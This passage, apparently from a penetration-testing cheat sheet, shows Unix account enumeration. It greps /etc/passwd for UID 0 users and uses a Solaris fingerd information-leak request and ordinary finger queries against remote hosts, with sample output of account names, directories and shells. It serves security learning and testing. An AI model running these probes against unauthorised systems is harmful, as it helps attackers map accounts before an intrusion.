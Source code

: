 Look for users with a UID of 0:

```
user@RoseSecurity $ grep :0: /etc/passwd
```
## Enumerating with Finger:

Various information leak vulnerabilities exist in fingerd implementations. A popular attack involves issuing a '1 2 3 4 5 6 7 8 9 0' request against a Solaris host running fingerd.

```
# finger '1 2 3 4 5 6 7 8 9 0'@192.168.0.10

[192.168.0.10]

Login       Name               TTY         Idle    When    Where

root     Super-User            console      <Jun  3 17:22> :0 

admin    Super-User            console      <Jun  3 17:22> :0

daemon          ???                         < .  .  .  . >

bin             ???                         < .  .  .  . >

sys             ???                         < .  .  .  . >

adm      Admin                              < .  .  .  . >

lp       Line Printer Admin                 < .  .  .  . >

uucp     uucp Admin                         < .  .  .  . >

nuucp    uucp Admin                         < .  .  .  . >

listen   Network Admin                      < .  .  .  . >

nobody   Nobody                             < .  .  .  . >
```

Performing a finger user@target.host request is especially effective against Linux, BSD, Solaris, and other Unix systems, because it often reveals a number of user accounts.

```
# finger user@192.168.189.12

Login: ftp                              Name: FTP User

Directory: /home/ftp                    Shell: /bin/sh

Never logged in.

No mail.

No Plan.



Login: samba                            Name: SAMBA user

Directory: /home/samba                  Shell: /bin/null

Never logged in.

No mail.

```